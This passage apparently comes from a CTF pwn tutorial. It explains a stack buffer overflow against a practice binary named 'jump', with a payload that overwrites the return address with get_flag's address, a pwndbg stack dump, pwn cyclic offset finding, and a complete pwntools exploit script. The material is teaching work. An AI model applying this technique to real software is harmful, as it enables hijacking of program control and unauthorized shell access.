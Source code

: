 `payload = b"A"*120 + p64(0x4011c7)`

If we send this to the program (full script is at the end of the writeup), the
stack will look like this after calling gets

```
pwndbg> b gets
pwndbg> c
pwndbg> finish
pwndbg> stack 16
00:0000│ rax r8 rsp  0x7fff3c268730 ◂— 0x4141414141414141 ('AAAAAAAA')
... ↓
0f:0078│             0x7fff3c2687a8 —▸ 0x4011c7 (get_flag) ◂— endbr64 
```

We can see that where the return address used to be is now the address of
`get_flag`. If we continue, a shell will open on our original window. Then, we
can just run `cat flag.txt` to get the flag, and solve the problem!

This technique is very common in pwn problems, and is called a buffer overflow.
It can be caused by any function that writes to memory that the programmer
didn't expect it would write to. In later tutorials we will see some ways buffer
overflows can be prevented, and some way to use them.

Side Note: While this process looks like it takes a long time, we can actually
do it very quickly with the help of pwntools. Create a long pattern using the
command `pwn cyclic 200` at the commandline. Run the program in gdb, and enter
the pattern we generated. This will cause the program to sigsev on the ret
instruction, and from that we can find a value like 0x6261616762616166. Put the
last 4 bytes into the command `pwn cyclic -o 0x62616166`, and it will return the
offset we should put our payload at to overwrite the return address.

Exploit script (read pwntools for pwn in the tools tab for more explanation): 

```python
from pwn import *

# context.terminal = ['konsole','-e'] if gdb.debug doesnt work, try changing this to your terminal of choice
context.binary = 'jump'

# three ways to start the binary. Local, remote, debugging. Uncomment 1 at a time to try them out
# p = process('jump') # start binary
# p = remote('forever.isss.io', 1303) # for connecting to the remote server
# p = gdb.debug('jump')
# We need the b there to make it a byte string. Python will mess with strings by default to make sure they are valid UTF-8, and we don't want that
payload = b"A"*120 + p64(0x4011c7) # Address of get_flag

p.sendline(payload)
p.interactive() # hooks the program back up to our terminal (like we just ran it normally)
```
